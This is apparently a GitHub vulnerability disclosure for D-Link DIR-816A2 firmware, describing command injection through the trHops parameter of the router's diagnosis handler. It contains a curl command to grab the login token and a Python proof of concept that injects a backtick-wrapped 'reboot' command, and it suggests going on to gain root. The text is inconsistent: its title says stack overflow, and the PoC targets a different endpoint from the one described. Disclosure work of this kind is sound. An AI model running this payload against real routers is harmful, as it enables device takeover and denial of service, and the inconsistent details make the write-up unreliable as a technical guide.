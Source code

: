 # DIR-816A2_FWv1.10CNB05_R1B011D88210.img Stack overflow vulnerability

## Overview

- Manufacturer's address：http://www.dlink.com.cn/
- Firmware download address ： http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-816

## Affected version

Below is the latest firmware

![](img/1.png#center)

## Vulnerability details

Vulnerability occurs in /goform/Diagnosis. When doType is 9 and pingAddr isn't 0.0.0.0, trHops will be spliced into v10 by snprintf, and finally system will be executed, resulting in a command injection vulnerability

![](img/2.png#center)

## Vulnerability verify

![](img/3.png#center)

![](img/4.png#center)

![](img/5.png#center)

## POC

Gets the token ID

```
curl http://192.168.0.1/dir_login.asp | grep tokenid
```

Run poc

```python
import requests


tokenid = ''

url = 'http://192.168.0.1/goform/form2Dhcpip.cgi'

payload = b'a' * 10000

data = {
    'tokenid': tokenid,
    'pingAddr': '192.168.0.1',
    'doType': '9',
    'trHops': '`reboot`'
}

print('payload sending...')
r = requests.post(url, data)
print('end')
```

You can see that the router restarts, and finally you can write an exp to get root.